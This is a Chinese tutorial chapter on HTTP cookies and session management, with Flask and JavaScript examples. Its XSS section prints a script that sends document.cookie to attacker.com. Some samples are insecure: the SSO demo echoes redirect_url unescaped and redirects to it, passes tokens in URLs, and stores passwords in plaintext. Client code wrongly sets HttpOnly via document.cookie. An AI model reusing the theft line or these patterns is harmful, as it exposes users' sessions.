


# 第6章 HTTP Cookies与会话管理

## 目录
1. [Cookies基础概念](#1-cookies基础概念)
2. [Cookies的属性与特性](#2-cookies的属性与特性)
3. [会话管理原理](#3-会话管理原理)
4. [Cookies的安全性考虑](#4-cookies的安全性考虑)
5. [实际应用场景](#5-实际应用场景)
6. [编程实践](#6-编程实践)
7. [最佳实践](#7-最佳实践)
8. [实战案例分析](#8-实战案例分析)

---

## 1. Cookies基础概念

### 1.1 什么是Cookies

HTTP Cookie（也称为Web Cookie或浏览器Cookie）是服务器发送到用户浏览器并保存在本地的一小段数据。浏览器会在后续的请求中携带这些Cookie，使得服务器能够识别用户的请求。

### 1.2 Cookies的工作流程



### 1.3 Cookies的主要用途

1. **会话管理**：维持登录状态、购物车等用户会话信息
2. **个性化**：存储用户偏好设置
3. **跟踪**：记录用户行为进行分析

## 2. Cookies的属性与特性

### 2.1 Cookie的基本结构

一个Cookie通常包含以下属性：

```
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>; Path=<path-value>; Expires=<date>; Max-Age=<number>; Secure; HttpOnly; SameSite=<samesite-value>
```

### 2.2 主要属性详解

#### Name/Value（名称/值）
- Cookie的键值对
- 名称和值都会经过URL编码

#### Expires/Max-Age（过期时间）
- Expires：指定具体的过期日期时间
- Max-Age：指定从当前时间起的秒数
- 未设置时为会话Cookie，浏览器关闭时删除

#### Domain（域名）
- 指定Cookie生效的域名
- 只能设置为当前域名或其父域名
- 默认为当前域名

#### Path（路径）
- 指定Cookie生效的路径
- 只有URL路径以该值开头的请求才会携带Cookie
- 默认为设置Cookie的路径

#### Secure（安全）
- 只在HTTPS连接中传输Cookie
- 防止Cookie在明文中传输

#### HttpOnly（HTTP专用）
- 防止客户端脚本访问Cookie
- 减少XSS攻击风险

#### SameSite（同站）
- 控制Cookie在跨站请求中的发送
- 可选值：Strict、Lax、None

### 2.3 Cookie的限制

1. **大小限制**：每个Cookie不超过4KB
2. **数量限制**：每个域名下通常不超过50个Cookie
3. **总大小限制**：每个域名下的Cookie总大小通常不超过4KB×50

## 3. 会话管理原理

### 3.1 会话的概念

会话（Session）是指用户与Web应用程序之间建立的交互过程。由于HTTP协议是无状态的，服务器需要通过某种机制来识别和关联同一用户的多次请求。

### 3.2 基于Cookie的会话管理

#### 实现流程



#### 关键组件

1. **会话ID**：唯一标识用户会话的字符串
2. **会话存储**：存储会话数据的地方（内存、数据库、Redis等）
3. **Cookie传输**：将会话ID传递给客户端的方式

### 3.3 会话生命周期管理

#### 创建会话

```python
# 示例：创建会话
session_id = generate_unique_session_id()
session_data = {
    'user_id': user.id,
    'login_time': datetime.now(),
    'permissions': user.permissions
}
session_store.save(session_id, session_data)

# 设置会话Cookie
response.set_cookie('session_id', session_id, httponly=True, secure=True)
```

#### 验证会话

```python
# 示例：验证会话
session_id = request.cookies.get('session_id')
if session_id:
    session_data = session_store.get(session_id)
    if session_data and not is_session_expired(session_data):
        # 会话有效，继续处理请求
        current_user = get_user(session_data['user_id'])
    else:
        # 会话无效，清除Cookie
        response.delete_cookie('session_id')
```

#### 销毁会话

```python
# 示例：销毁会话（用户登出）
session_id = request.cookies.get('session_id')
if session_id:
    session_store.delete(session_id)
    response.delete_cookie('session_id')
```

## 4. Cookies的安全性考虑

### 4.1 常见安全威胁

#### 1. XSS攻击（跨站脚本攻击）

攻击者通过注入恶意脚本窃取用户的Cookie：

```javascript
// 恶意脚本示例
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

**防护措施**：
- 设置HttpOnly标志
- 输入验证和输出编码
- 使用内容安全策略(CSP)

#### 2. CSRF攻击（跨站请求伪造）

攻击者诱导用户访问恶意网站，利用用户的登录状态发起恶意请求：

```html
<!-- CSRF攻击示例 -->

```

**防护措施**：
- 设置SameSite属性
- 使用CSRF Token
- 验证Referer头部

#### 3. 中间人攻击

在不安全的网络中截获Cookie：

**防护措施**：
- 设置Secure标志
- 使用HTTPS加密传输

### 4.2 安全最佳实践

#### 1. 设置安全标志

```python
# Flask示例
response.set_cookie(
    'session_id', 
    session_id,
    httponly=True,     # 防止XSS
    secure=True,       # 仅HTTPS传输
    samesite='Lax'     # CSRF防护
)
```

#### 2. 设置合适的过期时间

```python
# 设置较短的会话过期时间
response.set_cookie(
    'session_id',
    session_id,
    max_age=3600,      # 1小时过期
    httponly=True,
    secure=True
)
```

#### 3. 使用签名Cookie

```python
# Flask示例：使用签名Cookie
from itsdangerous import Signer

signer = Signer('secret-key')
signed_value = signer.sign(session_id)
response.set_cookie('session_id', signed_value)
```

## 5. 实际应用场景

### 5.1 用户身份认证

```python
# 登录处理
@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']
    
    user = authenticate_user(username, password)
    if user:
        # 创建会话
        session_id = create_session(user.id)
        
        # 设置会话Cookie
        response = make_response(redirect('/dashboard'))
        response.set_cookie(
            'session_id',
            session_id,
            httponly=True,
            secure=True,
            samesite='Lax'
        )
        return response
    else:
        return "登录失败", 401

# 登出处理
@app.route('/logout')
def logout():
    session_id = request.cookies.get('session_id')
    if session_id:
        destroy_session(session_id)
    
    response = make_response(redirect('/login'))
    response.delete_cookie('session_id')
    return response
```

### 5.2 购物车管理

```python
# 添加商品到购物车
@app.route('/add-to-cart', methods=['POST'])
def add_to_cart():
    product_id = request.form['product_id']
    quantity = int(request.form['quantity'])
    
    # 获取或创建购物车Cookie
    cart_data = request.cookies.get('cart')
    if cart_data:
        cart = json.loads(cart_data)
    else:
        cart = {}
    
    # 更新购物车
    cart[product_id] = cart.get(product_id, 0) + quantity
    
    # 设置购物车Cookie
    response = make_response(jsonify({'success': True}))
    response.set_cookie(
        'cart',
        json.dumps(cart),
        max_age=86400  # 24小时过期
    )
    return response
```

### 5.3 用户偏好设置

```python
# 保存用户主题偏好
@app.route('/save-theme', methods=['POST'])
def save_theme():
    theme = request.form['theme']
    
    response = make_response(jsonify({'success': True}))
    response.set_cookie(
        'theme',
        theme,
        max_age=31536000  # 1年过期
    )
    return response

# 在模板中使用主题设置
@app.context_processor
def inject_theme():
    theme = request.cookies.get('theme', 'light')
    return {'current_theme': theme}
```

## 6. 编程实践

### 6.1 服务端实现（Flask示例）

```python
from flask import Flask, request, make_response, jsonify
import secrets
import json
from datetime import datetime, timedelta

app = Flask(__name__)

# 简单的内存会话存储（生产环境应使用Redis等）
sessions = {}

def generate_session_id():
    """生成唯一的会话ID"""
    return secrets.token_urlsafe(32)

def create_session(user_id):
    """创建会话"""
    session_id = generate_session_id()
    sessions[session_id] = {
        'user_id': user_id,
        'created_at': datetime.now(),
        'last_accessed': datetime.now()
    }
    return session_id

def get_session(session_id):
    """获取会话信息"""
    session = sessions.get(session_id)
    if session:
        # 更新最后访问时间
        session['last_accessed'] = datetime.now()
        # 检查会话是否过期（30分钟）
        if datetime.now() - session['created_at'] > timedelta(minutes=30):
            del sessions[session_id]
            return None
        return session
    return None

def destroy_session(session_id):
    """销毁会话"""
    if session_id in sessions:
        del sessions[session_id]

@app.route('/')
def home():
    """首页 - 检查用户登录状态"""
    session_id = request.cookies.get('session_id')
    session = get_session(session_id) if session_id else None
    
    if session:
        return f"欢迎回来！用户ID: {session['user_id']}"
    else:
        return '<a href="/login">请登录</a>'

@app.route('/login', methods=['GET', 'POST'])
def login():
    """登录页面"""
    if request.method == 'POST':
        # 简化的认证逻辑
        username = request.form.get('username')
        password = request.form.get('password')
        
        if username == 'admin' and password == 'password':
            # 创建会话
            session_id = create_session(1)  # 用户ID为1
            
            # 设置会话Cookie
            response = make_response(redirect('/'))
            response.set_cookie(
                'session_id',
                session_id,
                httponly=True,
                secure=request.is_secure,
                samesite='Lax',
                max_age=1800  # 30分钟过期
            )
            return response
        else:
            return "用户名或密码错误"
    
    # 显示登录表单
    return '''
    <form method="post">
        用户名: <input type="text" name="username"><br>
        密码: <input type="password" name="password"><br>
        <input type="submit" value="登录">
    </form>
    '''

@app.route('/logout')
def logout():
    """登出"""
    session_id = request.cookies.get('session_id')
    if session_id:
        destroy_session(session_id)
    
    response = make_response(redirect('/'))
    response.delete_cookie('session_id')
    return response

@app.route('/protected')
def protected():
    """受保护的页面"""
    session_id = request.cookies.get('session_id')
    session = get_session(session_id) if session_id else None
    
    if session:
        return "这是受保护的页面内容"
    else:
        return "请先<a href='/login'>登录</a>", 401

if __name__ == '__main__':
    app.run(debug=True)
```

### 6.2 客户端实现（JavaScript示例）

```javascript
// Cookie操作工具类
class CookieManager {
    // 设置Cookie
    static set(name, value, options = {}) {
        let cookie = `${encodeURIComponent(name)}=${encodeURIComponent(value)}`;
        
        if (options.expires) {
            cookie += `; expires=${options.expires.toUTCString()}`;
        }
        
        if (options.path) {
            cookie += `; path=${options.path}`;
        }
        
        if (options.domain) {
            cookie += `; domain=${options.domain}`;
        }
        
        if (options.secure) {
            cookie += '; secure';
        }
        
        if (options.httpOnly) {
            cookie += '; httponly';
        }
        
        if (options.sameSite) {
            cookie += `; samesite=${options.sameSite}`;
        }
        
        document.cookie = cookie;
    }
    
    // 获取Cookie
    static get(name) {
        const cookies = document.cookie.split(';');
        for (let cookie of cookies) {
            const [cookieName, cookieValue] = cookie.trim().split('=');
            if (decodeURIComponent(cookieName) === name) {
                return decodeURIComponent(cookieValue);
            }
        }
        return null;
    }
    
    // 删除Cookie
    static remove(name, path = '/') {
        const expires = new Date(0);
        this.set(name, '', { expires, path });
    }
}

// 用户会话管理类
class SessionManager {
    constructor() {
        this.checkSession();
    }
    
    // 检查会话状态
    async checkSession() {
        try {
            const response = await fetch('/api/session/check', {
                method: 'GET',
                credentials: 'include'  // 包含Cookie
            });
            
            if (response.ok) {
                const data = await response.json();
                this.onSessionValid(data.user);
            } else {
                this.onSessionInvalid();
            }
        } catch (error) {
            console.error('检查会话失败:', error);
            this.onSessionInvalid();
        }
    }
    
    // 登录
    async login(username, password) {
        try {
            const response = await fetch('/api/login', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ username, password }),
                credentials: 'include'
            });
            
            if (response.ok) {
                const data = await response.json();
                this.onLoginSuccess(data.user);
                return { success: true };
            } else {
                const error = await response.json();
                return { success: false, error: error.message };
            }
        } catch (error) {
            return { success: false, error: '网络错误' };
        }
    }
    
    // 登出
    async logout() {
        try {
            await fetch('/api/logout', {
                method: 'POST',
                credentials: 'include'
            });
            this.onLogout();
        } catch (error) {
            console.error('登出失败:', error);
        }
    }
    
    // 会话有效时的回调
    onSessionValid(user) {
        console.log('会话有效:', user);
        // 更新UI显示用户信息
        document.getElementById('user-info').textContent = `欢迎, ${user.name}`;
        document.getElementById('login-form').style.display = 'none';
        document.getElementById('user-panel').style.display = 'block';
    }
    
    // 会话无效时的回调
    onSessionInvalid() {
        console.log('会话无效');
        // 显示登录表单
        document.getElementById('login-form').style.display = 'block';
        document.getElementById('user-panel').style.display = 'none';
    }
    
    // 登录成功时的回调
    onLoginSuccess(user) {
        this.onSessionValid(user);
    }
    
    // 登出时的回调
    onLogout() {
        this.onSessionInvalid();
    }
}

// 页面加载完成后初始化
document.addEventListener('DOMContentLoaded', () => {
    const sessionManager = new SessionManager();
    
    // 绑定登录表单事件
    document.getElementById('login-btn').addEventListener('click', async () => {
        const username = document.getElementById('username').value;
        const password = document.getElementById('password').value;
        
        const result = await sessionManager.login(username, password);
        if (!result.success) {
            alert('登录失败: ' + result.error);
        }
    });
    
    // 绑定登出按钮事件
    document.getElementById('logout-btn').addEventListener('click', () => {
        sessionManager.logout();
    });
});
```

## 7. 最佳实践

### 7.1 Cookie使用规范

#### 1. 最小化Cookie数据

```python
# 好的做法：只存储必要的信息
response.set_cookie('session_id', session_id)

# 避免：存储大量数据
# response.set_cookie('user_data', json.dumps(user_data))
```

#### 2. 设置合适的域和路径

```python
# 限制Cookie的作用范围
response.set_cookie(
    'session_id',
    session_id,
    domain='.example.com',  # 限定域名
    path='/app/',           # 限定路径
    httponly=True,
    secure=True
)
```

#### 3. 定期清理过期会话

```python
# 定期清理过期会话的后台任务
import threading
import time

def cleanup_expired_sessions():
    while True:
        now = datetime.now()
        expired_sessions = [
            sid for sid, session in sessions.items()
            if now - session['last_accessed'] > timedelta(hours=1)
        ]
        
        for sid in expired_sessions:
            del sessions[sid]
        
        time.sleep(3600)  # 每小时执行一次

# 启动清理线程
cleanup_thread = threading.Thread(target=cleanup_expired_sessions, daemon=True)
cleanup_thread.start()
```

### 7.2 会话安全管理

#### 1. 会话固定攻击防护

```python
# 在敏感操作前重新生成会话ID
@app.route('/change-password', methods=['POST'])
def change_password():
    session_id = request.cookies.get('session_id')
    old_session = get_session(session_id)
    
    if not old_session:
        return "未授权", 401
    
    # 重新生成会话ID
    new_session_id = create_session(old_session['user_id'])
    destroy_session(session_id)  # 销毁旧会话
    
    # 设置新的会话Cookie
    response = make_response("密码修改成功")
    response.set_cookie('session_id', new_session_id)
    return response
```

#### 2. 并发登录控制

```python
# 限制同一用户同时登录的设备数
MAX_SESSIONS_PER_USER = 3

def create_session(user_id):
    # 清理该用户过多的会话
    user_sessions = [
        sid for sid, session in sessions.items()
        if session['user_id'] == user_id
    ]
    
    if len(user_sessions) >= MAX_SESSIONS_PER_USER:
        # 删除最早的会话
        oldest_session = min(
            user_sessions,
            key=lambda sid: sessions[sid]['created_at']
        )
        del sessions[oldest_session]
    
    # 创建新会话
    session_id = generate_session_id()
    sessions[session_id] = {
        'user_id': user_id,
        'created_at': datetime.now(),
        'last_accessed': datetime.now()
    }
    return session_id
```

### 7.3 性能优化

#### 1. 使用外部存储

```python
# 使用Redis存储会话数据
import redis
import json

redis_client = redis.Redis(host='localhost', port=6379, db=0)

def create_session(user_id):
    session_id = generate_session_id()
    session_data = {
        'user_id': user_id,
        'created_at': datetime.now().isoformat(),
        'last_accessed': datetime.now().isoformat()
    }
    
    # 存储到Redis，设置过期时间
    redis_client.setex(
        f"session:{session_id}",
        1800,  # 30分钟过期
        json.dumps(session_data)
    )
    
    return session_id

def get_session(session_id):
    session_data = redis_client.get(f"session:{session_id}")
    if session_data:
        # 更新最后访问时间
        session = json.loads(session_data)
        session['last_accessed'] = datetime.now().isoformat()
        redis_client.setex(
            f"session:{session_id}",
            1800,  # 重新设置过期时间
            json.dumps(session)
        )
        return session
    return None
```

#### 2. 缓存频繁访问的数据

```python
# 缓存用户信息以减少数据库查询
from functools import lru_cache

@lru_cache(maxsize=1000)
def get_user_cached(user_id):
    return get_user_from_database(user_id)

def get_current_user(session):
    user_id = session['user_id']
    return get_user_cached(user_id)
```

## 8. 实战案例分析

### 8.1 电商网站购物车实现

```python
from flask import Flask, request, make_response, jsonify
import json
import uuid

app = Flask(__name__)

# 购物车管理类
class ShoppingCart:
    def __init__(self):
        self.carts = {}  # cart_id -> cart_data
    
    def get_or_create_cart(self, cart_id=None):
        """获取或创建购物车"""
        if not cart_id:
            cart_id = str(uuid.uuid4())
            self.carts[cart_id] = {
                'items': {},
                'created_at': datetime.now().isoformat()
            }
        elif cart_id not in self.carts:
            self.carts[cart_id] = {
                'items': {},
                'created_at': datetime.now().isoformat()
            }
        
        return cart_id, self.carts[cart_id]
    
    def add_item(self, cart_id, product_id, quantity):
        """添加商品到购物车"""
        if cart_id not in self.carts:
            return False
        
        cart = self.carts[cart_id]
        if product_id in cart['items']:
            cart['items'][product_id] += quantity
        else:
            cart['items'][product_id] = quantity
        
        return True
    
    def get_cart_items(self, cart_id):
        """获取购物车商品"""
        if cart_id not in self.carts:
            return {}
        return self.carts[cart_id]['items']
    
    def clear_cart(self, cart_id):
        """清空购物车"""
        if cart_id in self.carts:
            self.carts[cart_id]['items'] = {}

# 全局购物车实例
shopping_cart = ShoppingCart()

@app.route('/api/cart/add', methods=['POST'])
def add_to_cart():
    """添加商品到购物车"""
    data = request.get_json()
    product_id = data.get('product_id')
    quantity = data.get('quantity', 1)
    
    # 获取购物车ID
    cart_id = request.cookies.get('cart_id')
    
    # 获取或创建购物车
    cart_id, cart = shopping_cart.get_or_create_cart(cart_id)
    
    # 添加商品
    shopping_cart.add_item(cart_id, product_id, quantity)
    
    # 设置购物车Cookie
    response = make_response(jsonify({
        'success': True,
        'cart_id': cart_id,
        'items_count': sum(cart['items'].values())
    }))
    
    if not request.cookies.get('cart_id'):
        response.set_cookie(
            'cart_id',
            cart_id,
            max_age=86400*30,  # 30天过期
            httponly=True,
            samesite='Lax'
        )
    
    return response

@app.route('/api/cart/items')
def get_cart_items():
    """获取购物车商品"""
    cart_id = request.cookies.get('cart_id')
    if not cart_id:
        return jsonify({'items': {}})
    
    items = shopping_cart.get_cart_items(cart_id)
    return jsonify({'items': items})

@app.route('/api/cart/clear', methods=['POST'])
def clear_cart():
    """清空购物车"""
    cart_id = request.cookies.get('cart_id')
    if cart_id:
        shopping_cart.clear_cart(cart_id)
    
    response = make_response(jsonify({'success': True}))
    response.delete_cookie('cart_id')
    return response

if __name__ == '__main__':
    app.run(debug=True)
```

### 8.2 单点登录(SSO)实现

```python
from flask import Flask, request, make_response, jsonify, redirect
import jwt
import datetime
from urllib.parse import urlencode

app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key'

# 模拟用户数据库
users = {
    'admin': {
        'id': 1,
        'password': 'password',
        'name': '管理员'
    }
}

# SSO服务器
class SSOServer:
    def __init__(self, secret_key):
        self.secret_key = secret_key
        self.active_tokens = {}  # token -> user_info
    
    def generate_token(self, user_info, expires_in=3600):
        """生成JWT令牌"""
        payload = {
            'user_id': user_info['id'],
            'username': user_info['name'],
            'exp': datetime.datetime.utcnow() + datetime.timedelta(seconds=expires_in)
        }
        
        token = jwt.encode(payload, self.secret_key, algorithm='HS256')
        self.active_tokens[token] = user_info
        return token
    
    def validate_token(self, token):
        """验证JWT令牌"""
        try:
            payload = jwt.decode(token, self.secret_key, algorithms=['HS256'])
            return payload
        except jwt.ExpiredSignatureError:
            return None
        except jwt.InvalidTokenError:
            return None
    
    def logout_token(self, token):
        """注销令牌"""
        if token in self.active_tokens:
            del self.active_tokens[token]

sso_server = SSOServer(app.config['SECRET_KEY'])

@app.route('/sso/login', methods=['GET', 'POST'])
def sso_login():
    """SSO登录页面"""
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        redirect_url = request.form.get('redirect_url', '/')
        
        # 验证用户凭据
        user = users.get(username)
        if user and user['password'] == password:
            # 生成令牌
            token = sso_server.generate_token(user)
            
            # 重定向到回调URL
            callback_url = f"{redirect_url}?token={token}"
            return redirect(callback_url)
        else:
            return "用户名或密码错误", 401
    
    # 显示登录表单
    redirect_url = request.args.get('redirect_url', '/')
    return f'''
    <form method="post">
        <input type="hidden" name="redirect_url" value="{redirect_url}">
        用户名: <input type="text" name="username"><br>
        密码: <input type="password" name="password"><br>
        <input type="submit" value="登录">
    </form>
    '''

@app.route('/sso/validate')
def sso_validate():
    """验证令牌"""
    token = request.args.get('token')
    if not token:
        return jsonify({'valid': False}), 400
    
    payload = sso_server.validate_token(token)
    if payload:
        return jsonify({
            'valid': True,
            'user': {
                'id': payload['user_id'],
                'name': payload['username']
            }
        })
    else:
        return jsonify({'valid': False})

@app.route('/sso/logout')
def sso_logout():
    """SSO登出"""
    token = request.args.get('token')
    if token:
        sso_server.logout_token(token)
    
    return jsonify({'success': True})

# 应用程序示例
@app.route('/')
def app_home():
    """应用程序首页"""
    # 检查是否有令牌
    token = request.args.get('token')
    if token:
        # 验证令牌
        payload = sso_server.validate_token(token)
        if payload:
            # 设置本地会话
            response = make_response(f"欢迎, {payload['username']}!")
            response.set_cookie('auth_token', token)
            return response
    
    # 检查本地会话
    local_token = request.cookies.get('auth_token')
    if local_token:
        payload = sso_server.validate_token(local_token)
        if payload:
            return f"欢迎, {payload['username']}!"
    
    # 重定向到SSO登录
    sso_login_url = f"http://localhost:5000/sso/login?redirect_url=http://localhost:5001/"
    return redirect(sso_login_url)

if __name__ == '__main__':
    app.run(port=5001, debug=True)
```

### 8.3 移动端Cookie适配

```javascript
// 移动端Cookie管理
class MobileCookieManager {
    constructor() {
        // 检测是否支持Cookie
        this.supportsCookies = this.checkCookieSupport();
        
        // 如果不支持Cookie，使用localStorage作为备选方案
        if (!this.supportsCookies) {
            this.storage = localStorage;
        }
    }
    
    // 检测Cookie支持
    checkCookieSupport() {
        try {
            document.cookie = "test_cookie=1";
            const cookiesEnabled = document.cookie.indexOf("test_cookie=") !== -1;
            document.cookie = "test_cookie=1; expires=Thu, 01-Jan-1970 00:00:01 GMT";
            return cookiesEnabled;
        } catch (e) {
            return false;
        }
    }
    
    // 设置值（自动选择存储方式）
    set(key, value, options = {}) {
        if (this.supportsCookies) {
            this.setCookie(key, value, options);
        } else {
            this.storage.setItem(key, JSON.stringify({
                value: value,
                expires: options.expires ? options.expires.getTime() : null
            }));
        }
    }
    
    // 获取值
    get(key) {
        if (this.supportsCookies) {
            return this.getCookie(key);
        } else {
            const item = this.storage.getItem(key);
            if (!item) return null;
            
            const data = JSON.parse(item);
            // 检查是否过期
            if (data.expires && new Date().getTime() > data.expires) {
                this.storage.removeItem(key);
                return null;
            }
            
            return data.value;
        }
    }
    
    // 删除值
    remove(key) {
        if (this.supportsCookies) {
            this.removeCookie(key);
        } else {
            this.storage.removeItem(key);
        }
    }
    
    // Cookie操作方法
    setCookie(name, value, options = {}) {
        let cookie = `${encodeURIComponent(name)}=${encodeURIComponent(value)}`;
        
        if (options.expires) {
            cookie += `; expires=${options.expires.toUTCString()}`;
        }
        
        if (options.path) {
            cookie += `; path=${options.path}`;
        }
        
        if (options.domain) {
            cookie += `; domain=${options.domain}`;
        }
        
        if (options.secure) {
            cookie += '; secure';
        }
        
        if (options.httpOnly) {
            cookie += '; httponly';
        }
        
        if (options.sameSite) {
            cookie += `; samesite=${options.sameSite}`;
        }
        
        document.cookie = cookie;
    }
    
    getCookie(name) {
        const cookies = document.cookie.split(';');
        for (let cookie of cookies) {
            const [cookieName, cookieValue] = cookie.trim().split('=');
            if (decodeURIComponent(cookieName) === name) {
                return decodeURIComponent(cookieValue);
            }
        }
        return null;
    }
    
    removeCookie(name, path = '/') {
        const expires = new Date(0);
        this.setCookie(name, '', { expires, path });
    }
}

// 使用示例
const cookieManager = new MobileCookieManager();

// 设置用户偏好
cookieManager.set('theme', 'dark', {
    expires: new Date(Date.now() + 86400000 * 30) // 30天过期
});

// 获取用户偏好
const theme = cookieManager.get('theme');
console.log('当前主题:', theme);

// 删除用户偏好
// cookieManager.remove('theme');
```

通过以上详细的讲解和示例代码，我们全面介绍了HTTP Cookies与会话管理的核心概念、实现原理、安全考虑和最佳实践。掌握这些知识对于开发安全、高效的Web应用程序至关重要。